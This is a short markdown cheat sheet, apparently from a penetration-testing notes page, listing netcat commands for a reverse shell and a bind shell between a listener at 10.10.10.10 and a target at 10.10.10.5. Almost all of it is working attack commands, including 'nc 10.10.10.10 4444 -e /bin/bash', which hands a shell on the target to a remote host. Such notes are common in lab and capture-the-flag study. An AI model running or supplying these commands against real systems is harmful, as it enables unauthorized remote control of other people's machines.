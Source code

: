 
## Netcat Reverse Shell
- localhost: 10.10.10.10
  - `nc -nvlp 4444`
- target: 10.10.10.5
  - `nc 10.10.10.10 4444 -e /bin/bash`

## Netcat Bind Shell
- localhost: 10.10.10.10
  - `nc 10.10.10.5 4444`
- target: 10.10.10.5
  - `nc -nvlp 4444 -e /bin/bash`
